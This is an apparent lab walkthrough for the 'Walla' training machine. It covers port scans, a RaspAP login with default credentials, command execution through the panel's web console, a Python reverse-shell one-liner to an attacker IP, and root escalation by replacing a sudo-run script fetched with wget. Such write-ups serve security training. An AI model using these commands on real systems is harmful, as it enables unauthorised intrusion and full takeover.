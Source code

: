 ```yaml
---
description: 12/05/2022
---
```


# Walla (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Issuer: commonName=walla
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T18:26:36
| Not valid after:  2030-09-15T18:26:36
| MD5:   097cbda176ab9b73c8ef68ab84e9a055
|_SHA-1: 6c4bfee30bd6d9102ef9f81a3a4172d831bdbaac
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: B5F9F8F2263315029AD7A81420E6CC2D
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.53
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
PORT     STATE         SERVICE  VERSION
53/udp   open|filtered domain
67/udp   open|filtered dhcps
631/udp  open|filtered ipp
5353/udp open|filtered zeroconf
```

Notes:

* SSH open on 42042, 422, and 22 is open
* Telnet 23 is open -- Strange
* SMTP 25 is open
* <mark style="color:yellow;">HTTP 8091 is open -- Lighttpd 1.4.53</mark>
  * RaspAP

## Enumeration

### Port 8091 - HTTP (Lighttpd--RaspAP)

Visual:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption><p>admin:secret (Default Credentials)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1) (6).png" alt=""><figcaption><p>Discovering Default Credentials</p></figcaption></figure>

* We now have access to the RaspAP login page!

## Exploitation

* [http://192.168.66.97:8091/index.php?page=system\_info#console](http://192.168.66.97:8091/index.php?page=system\_info#console)
* Upon navigating to the following site, you can execute commands in the following window/web shell!!!

{% embed url="https://github.com/gerbsec/CVE-2020-24572-POC" %}
Not needed, but cool
{% endembed %}

Start nc Listener:

```
sudo rlwrap nc -lnvp 42042
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192
.168.49.66",42042));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><img src="../../../.gitbook/assets/image (13) (6).png" alt=""><figcaption><p>Utilizing exploit to craft us a reverse shell!</p></figcaption></figure>

* Or you could simply use revshells

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../.gitbook/assets/image (7) (9).png" alt=""><figcaption><p>RaspAP Webshell</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (14) (5).png" alt=""><figcaption><p>Landed as www-data</p></figcaption></figure>

## Privilege Escalation

Sudo -l Enumeration:

<figure><img src="../../../.gitbook/assets/image (2) (2) (3).png" alt=""><figcaption><p>Interesting file</p></figcaption></figure>

### Local enumeration

Linpeas:

```
/etc/mysql/mariadb.cnf


╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /etc/aliases.db: Berkeley DB (Hash, version 9, native byte-order)
```

### PrivEsc vector

<mark style="color:yellow;">sudo /usr/bin/python /home/walter/wifi\_reset.py</mark>

Remove wifi\_reset.py:

{% code overflow="wrap" %}
```
rm -f /home/walter/wifi_reset.py
```
{% endcode %}

Replace with wifi\_reset.py:

```
import os

os.system('/bin/bash')
```

Transfer to Victim:

```
cd /home/walter

wget 192.168.49.66/wifi_reset.py
```

Execute Binary:

```
sudo /usr/bin/python /home/walter/wifi_reset.py
```

## Proofs

<figure><img src="../../../.gitbook/assets/image (4) (2) (4).png" alt=""><figcaption><p>Root</p></figcaption></figure>

